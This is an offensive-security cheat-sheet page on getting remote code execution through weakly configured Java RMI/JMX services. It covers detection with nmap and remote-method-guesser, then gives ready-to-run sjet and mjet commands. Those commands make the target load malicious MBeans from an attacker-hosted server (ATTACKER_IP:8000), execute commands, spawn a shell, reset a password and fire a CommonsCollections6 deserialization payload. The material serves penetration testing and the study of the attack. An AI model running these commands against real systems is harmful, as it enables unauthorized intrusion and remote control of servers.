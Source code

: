 # Java RMI

> Exposing a weak configured Java Remote Method Invocation (RMI) service can lead to several ways to achieve RCE.
> One such attack is to host an MLet file and instruct the JMX service to load MBeans from the remote host which can be carried out
> using the tools mjet or sjet. remote-method-guesser is a more recent tool which bundles enumeration of RMI services together
> with a summary of currently known attack techniques.

## Summary

* [Tools](#tools)
* [Detection](#detection)
* [Exploitation](#exploitation)
  * [RCE using sjet/mjet](#rce-using-sjet-or-mjet)
* [References](#references)

## Tools

- [sjet](https://github.com/siberas/sjet)
- [mjet](https://github.com/mogwailabs/mjet)
- [remote-method-guesser](https://github.com/qtc-de/remote-method-guesser)

## Detection

Using [nmap](https://nmap.org/):
```powershell
$ nmap -sV --script "rmi-dumpregistry or rmi-vuln-classloader" -p TARGET_PORT TARGET_IP -Pn -v
1089/tcp open  java-rmi Java RMI
| rmi-vuln-classloader:
|   VULNERABLE:
|   RMI registry default configuration remote code execution vulnerability
|     State: VULNERABLE
|       Default configuration of RMI registry allows loading classes from remote URLs which can lead to remote code execution.
| rmi-dumpregistry:
|   jmxrmi
|     javax.management.remote.rmi.RMIServerImpl_Stub
```

Using [remote-method-guesser](https://github.com/qtc-de/remote-method-guesser):
```bash
$ rmg scan 172.17.0.2 --ports 0-65535
[+] Scanning 6225 Ports on 172.17.0.2 for RMI services.
[+]
[+] 	[HIT] Found RMI service(s) on 172.17.0.2:40393 (DGC)
[+] 	[HIT] Found RMI service(s) on 172.17.0.2:1090  (Registry, DGC)
[+] 	[HIT] Found RMI service(s) on 172.17.0.2:9010  (Registry, Activator, DGC)
[+] 	[6234 / 6234] [#############################] 100%
[+]
[+] Portscan finished.
```

```bash
$ rmg enum 172.17.0.2 9010
[+] RMI registry bound names:
[+]
[+] 	- plain-server2
[+] 		--> de.qtc.rmg.server.interfaces.IPlainServer (unknown class)
[+] 		    Endpoint: iinsecure.dev:39153 ObjID: [-af587e6:17d6f7bb318:-7ff7, 9040809218460289711]
[+] 	- legacy-service
[+] 		--> de.qtc.rmg.server.legacy.LegacyServiceImpl_Stub (unknown class)
[+] 		    Endpoint: iinsecure.dev:39153 ObjID: [-af587e6:17d6f7bb318:-7ffc, 4854919471498518309]
[+] 	- plain-server
[+] 		--> de.qtc.rmg.server.interfaces.IPlainServer (unknown class)
[+] 		    Endpoint: iinsecure.dev:39153 ObjID: [-af587e6:17d6f7bb318:-7ff8, 6721714394791464813]
[...]
```

## Exploitation

### RCE using sjet or mjet

#### Requirements
- Jython
- The JMX server can connect to a http service that is controlled by the attacker
- JMX authentication is not enabled

#### Remote Command Execution

The attack involves the following steps:
* Starting a web server that hosts the MLet and a JAR file with the malicious MBeans
* Creating a instance of the MBean javax.management.loading.MLet on the target server, using JMX
* Invoking the "getMBeansFromURL" method of the MBean instance, passing the webserver URL as parameter. The JMX service will connect to the http server and parse the MLet file.
* The JMX service downloads and loades the JAR files that were referenced in the MLet file, making the malicious MBean available over JMX.
* The attacker finally invokes methods from the malicious MBean.

Exploit the JMX using [sjet](https://github.com/siberas/sjet) or [mjet](https://github.com/mogwailabs/mjet)

```powershell
jython sjet.py TARGET_IP TARGET_PORT super_secret install http://ATTACKER_IP:8000 8000
jython sjet.py TARGET_IP TARGET_PORT super_secret command "ls -la"
jython sjet.py TARGET_IP TARGET_PORT super_secret shell
jython sjet.py TARGET_IP TARGET_PORT super_secret password this-is-the-new-password
jython sjet.py TARGET_IP TARGET_PORT super_secret uninstall
jython mjet.py --jmxrole admin --jmxpassword adminpassword TARGET_IP TARGET_PORT deserialize CommonsCollections6 "touch /tmp/xxx"

jython mjet.py TARGET_IP TARGET_PORT install super_secret http://ATTACKER_IP:8000 8000
jython mjet.py TARGET_IP TARGET_PORT command super_secret "whoami"
jython mjet.py TARGET_IP TARGET_PORT command super_secret shell
```

## References

* [ATTACKING RMI BASED JMX SERVICES - HANS-MARTIN MÜNCH, 28 April 2019](https://mogwailabs.de/en/blog/2019/04/attacking-rmi-based-jmx-services/)
* [JMX RMI – MULTIPLE APPLICATIONS RCE - Red Timmy Security, 26 March 2019](https://www.exploit-db.com/docs/english/46607-jmx-rmi-–-multiple-applications-remote-code-execution.pdf)
* [remote-method-guesser - BHUSA 2021 Arsenal - Tobias Neitzel, 15 August 2021](https://www.slideshare.net/TobiasNeitzel/remotemethodguesser-bhusa2021-arsenal)
